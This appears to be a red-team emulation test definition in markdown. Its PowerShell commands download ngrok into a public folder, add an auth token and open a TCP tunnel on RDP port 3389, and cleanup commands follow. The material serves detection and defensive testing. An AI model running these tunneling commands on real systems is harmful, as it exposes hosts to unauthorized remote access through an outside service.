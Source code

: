 #### Inputs:

| Name      | Description            | Type    | Default Value                                                          |
| --------- | ---------------------- | ------- | ---------------------------------------------------------------------- |
| api_token | ngrok API              | string  | N/A                                                                    |
| port_num  | port number for tunnel | integer | 3389                                                                   |
| download  | link to download ngrok | string  | https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-windows-amd64.zip |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
C:\Users\Public\ngrok\ngrok.exe config add-authtoken #{api_token} | Out-Null
Start-Job -ScriptBlock { C:\Users\Public\ngrok\ngrok.exe tcp #{port_num} } | Out-Null
Start-Sleep -s 5
Stop-Job -Name Job1 | Out-Null
```

#### Cleanup Commands:

```powershell
Remove-Item C:\Users\Public\ngrok -Recurse -ErrorAction Ignore
Remove-Item C:\%userprofile%\AppData\Local\ngrok -ErrorAction Ignore
```

#### Dependencies: Run with `powershell`!

##### Description: Download ngrok

##### Check Prereq Commands:

```powershell
if (Test-Path C:\Users\Public\ngrok) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Path C:\Users\Public\ngrok -ItemType Directory | Out-Null
Invoke-WebRequest #{download} -OutFile C:\Users\Public\ngrok\ngrok-v3-stable-windows-amd64.zip
Expand-Archive C:\Users\Public\ngrok\ngrok-v3-stable-windows-amd64.zip -DestinationPath C:\Users\Public\ngrok
```

<br/>
